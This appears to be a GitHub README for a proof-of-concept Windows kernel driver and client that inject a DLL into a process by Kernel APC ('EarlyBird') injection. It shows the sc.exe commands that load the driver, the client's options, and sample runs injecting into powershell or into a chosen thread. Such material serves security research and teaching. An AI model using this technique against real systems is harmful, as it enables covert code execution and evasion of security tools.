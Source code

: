 # InjectLibrary

PoCs to perform DLL injection with Kernel APC Injection method.

## Installation

```
PS C:\> sc.exe create InjectLibrary type= kernel binpath= C:\Dev\InjectLibraryDrv_x64.sys
PS C:\> sc.exe start InjectLibrary
```

## Client Program Usage

Client performs to inject DLL to a specified process.

```
PS C:\Dev> .\InjectLibraryClient.exe -h

InjectLibraryClient - Client for InjectLibraryDrv.

Usage: InjectLibraryClient.exe [Options]

        -h, --help    : Displays this help message.
        -l, --library : Specifies a DLL file to inject.
        -c, --command : Specifies a command to create injection testing process.
        -t, --tid     : Specifies a target thread ID in decimal format.

[!] -l option is required.
```

DLL path to inject must be specified with `-l` option.
To test this method quickly, recommend to set command to execute with `-c` option.
It performs EarlyBird style DLL injection from kernelmode:

```
PS C:\Dev> .\InjectLibraryClient.exe -l C:\Dev\InjectLib_x64.dll -c powershell

[>] Trying to create test process.
    [*] Command : powershell
[+] Got process for testing DLL injection (PID: 3580).
[*] Injection target information:
    [*] Thread ID    : 5376
    [*] Library Path : C:\Dev\InjectLib_x64.dll
[>] Sending a query to \??\InjectLibrary.
[+] Got a handle to \??\InjectLibrary (Handle = 0x2D8)
[+] DLL injection would be successful.
[*] Done.
```

If you want to inject DLL to existing thread, set thread ID with `-t` option.
To check thread ID, we can use [Sysinternals Suite Process Explorer](https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer) or [System Informer](https://github.com/winsiderss/systeminformer).
The challenge of this method is hard to know what thread is valid for injection, so injection would not be triggered for invalid thread:

```
PS C:\Dev> .\InjectLibraryClient.exe -l C:\Dev\InjectLib_x64.dll -t 3408

[*] Injection target information:
    [*] Thread ID    : 3408
    [*] Library Path : C:\Dev\InjectLib_x64.dll
[>] Sending a query to \??\InjectLibrary.
[+] Got a handle to \??\InjectLibrary (Handle = 0xC4)
[+] DLL injection would be successful.
[*] Done.
```

![](./figures/InjectLibrary.png)